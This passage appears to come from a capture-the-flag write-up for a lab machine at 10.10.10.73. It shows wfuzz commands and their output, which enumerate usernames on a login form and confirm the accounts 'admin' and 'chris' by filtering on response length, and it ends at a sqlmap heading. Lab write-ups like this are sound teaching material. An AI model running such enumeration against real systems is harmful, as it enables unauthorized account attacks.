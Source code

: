 

    root@kali# wfuzz -c -w /opt/SecLists/Usernames/Names/names.txt -d "username=FUZZ&password=abcd" -u http:
    //10.10.10.73/login.php

    ********************************************************
    * Wfuzz 2.2.9 - The Web Fuzzer                         *
    ********************************************************

    Target: http://10.10.10.73/login.php
    Total requests: 10163

    ==================================================================
    ID      Response   Lines      Word         Chars          Payload
    ==================================================================

    000001:  C=200    102 L      657 W         7074 Ch        "aaliyah"
    000002:  C=200    102 L      657 W         7074 Ch        "aaren"
    000004:  C=200    102 L      657 W         7074 Ch        "aaron"
    000041:  C=200    102 L      657 W         7074 Ch        "achal"
    000042:  C=200    102 L      657 W         7074 Ch        "achamma"
    ^C
    Finishing pending requests...



Now that we see that a non-existent username returns a response that's
7074 characters, let's exclude that result, using the `--hh 7074`:



    root@kali# wfuzz -c -w /opt/SecLists/Usernames/Names/names.txt -d "username=FUZZ&password=abcd" -u http://10.10.10.73/login.php --hh 7074

    ********************************************************
    * Wfuzz 2.2.9 - The Web Fuzzer                         *
    ********************************************************

    Target: http://10.10.10.73/login.php
    Total requests: 10163

    ==================================================================
    ID      Response   Lines      Word         Chars          Payload
    ==================================================================

    000086:  C=200    102 L      659 W         7091 Ch        "admin"
    001883:  C=200    102 L      659 W         7091 Ch        "chris"

    Total time: 328.8529
    Processed Requests: 10163
    Filtered Requests: 10161
    Requests/sec.: 30.90438



So we confirmed two accounts, admin and chris.

#### SQL Injection - sqlmap
